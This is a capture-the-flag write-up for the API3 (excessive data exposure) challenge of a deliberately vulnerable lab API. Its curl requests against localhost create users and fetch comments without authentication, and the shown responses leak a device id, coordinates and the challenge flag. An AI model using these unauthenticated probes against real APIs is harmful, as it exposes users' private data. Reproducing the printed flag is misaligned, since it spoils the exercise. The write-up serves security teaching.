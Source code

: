 > We have all been there , right? Giving away too much data and the Dev showing it . Try the Android App in the Resources folder

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
```

# Create User
## POST /vapi/api3/user

Create a user
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"\",\x0d\x0a    \"password\":\"\",\x0d\x0a    \"name\":\"\"\x0d\x0a}' \
    $'http://localhost/vapi/api3/user'
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Wed, 26 Jun 2024 16:16:46 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:16:46 GMT
Content-Type: application/json

{"username":"","name":"","id":2}
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"myusername\",\x0d\x0a    \"password\":\"mypassword\",\x0d\x0a    \"name\":\"myname\"\x0d\x0a}' \
    $'http://localhost/vapi/api3/user'
```
```http
HTTP/1.1 201 Created
Host: localhost
Date: Wed, 26 Jun 2024 16:20:41 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:20:41 GMT
Content-Type: application/json

{"username":"myusername","name":"myname","id":11}
```

# Get Comment
## GET /vapi/api3/comment

Supposedly this was meant to be sent from using the mobile application, but I was too lazy to set up Android Studio

Get comment.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Content-Type: application/json' -H $'Host: localhost' -H $'Content-Length: 4' \
    --data-binary $'{\x0d\x0a}' \
    $'http://localhost/vapi/api3/comment'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Wed, 26 Jun 2024 16:26:50 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:26:50 GMT
Content-Type: application/json

[{"id":1,"postid":"1","deviceid":"flag{api3_0bad677bfc504c75ff72}","latitude":"45.5426274","longitude":"-122.7944111","commenttext":"THIS POST IS SH***Y","username":"baduser007"}]
```

- Observe that even without authentication, we are able to get a response from the application showing the comment.
- Observe that the comment provides an excessive information such as "deviceid"

API3 Flag
```
flag{api3_0bad677bfc504c75ff72}
```

References:
https://zerodayhacker.com/using-an-android-emulator-for-api-hacking/
https://owasp.org/API-Security/editions/2019/en/0xa3-excessive-data-exposure/